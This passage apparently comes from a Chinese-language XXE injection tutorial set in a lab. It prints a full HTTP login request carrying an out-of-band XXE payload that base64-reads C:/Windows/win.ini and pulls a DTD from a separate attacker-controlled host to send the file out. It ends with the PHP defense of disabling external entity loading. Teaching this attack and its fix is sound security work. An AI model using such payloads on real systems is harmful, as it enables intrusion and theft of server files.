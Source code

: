 ![image-20240902165246389](https://image.201068.xyz/assets/27.XXE/image-20240902165246389.png)

##### 构造dpayload

```xml
POST /doLogin.php HTTP/1.1
Host: 192.168.70.10:8093
Content-Length: 269
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.70.10:8093
Referer: http://192.168.70.10:8093/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: BEEFHOOK=MByrcr5Ki6e1SP1dgaxaDS80bEuVKn2z5CzQMl7iHG0YDHOQKfQoGjhYc0MKB5W9Er41hmBSlxZt57Td
Connection: keep-alive

<!DOCTYPE test[
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=C:/Windows/win.ini">
    <!ENTITY % dtd SYSTEM "http://192.168.70.4:1234/a.dtd">
    %dtd;
    %xxe;
]>
<user><username>admin</username><password>123456</password></user>
```



```xml
<!DOCTYPE test[
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=C:/Windows/win.ini">
    <!ENTITY % dtd SYSTEM "http://192.168.70.4:1234/a.dtd">
    %dtd;
    %xxe;
]>
<user><username>admin</username><password>123456</password></user>
```

![image-20240902165404685](https://image.201068.xyz/assets/27.XXE/image-20240902165404685.png)

##### base64解码

![image-20240902165228979](https://image.201068.xyz/assets/27.XXE/image-20240902165228979.png)

### 防御 - 禁止解析XML外部实体内容

使用开发语言提供的**禁用外部实体**的方法

#### PHP 

```php
libxml_disable_entity_loader(true);
```
